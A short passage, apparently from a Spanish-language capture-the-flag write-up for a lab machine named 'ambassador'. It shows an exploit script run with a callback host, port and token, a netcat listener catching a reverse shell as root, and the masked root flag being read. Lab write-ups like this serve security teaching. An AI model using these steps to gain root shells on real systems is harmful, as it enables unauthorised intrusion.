 ```
developer@ambassador:~$ python3 exploit.py --lhost 10.10.14.61 --lport 123 --token bb03b43b-1d81-d62b-24b5-39540ee469b5 
```

```bash
❯ nc -nlvp 123
listening on [any] 123 ...
```
Al ejecutarlo nos debe llegar la shell como root

```bash
❯ nc -nlvp 123
listening on [any] 123 ...
connect to [10.10.14.61] from (UNKNOWN) [10.10.11.183] 58732
bash: cannot set terminal process group (3731): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# 
```

Ahora podemos vizualizar la flag como root


```bash
root@ambassador:~# ls
cleanup.sh  root.txt  snap
root@ambassador:~# cat root.txt 
5a4**************************4b1
root@ambassador:~# 
```
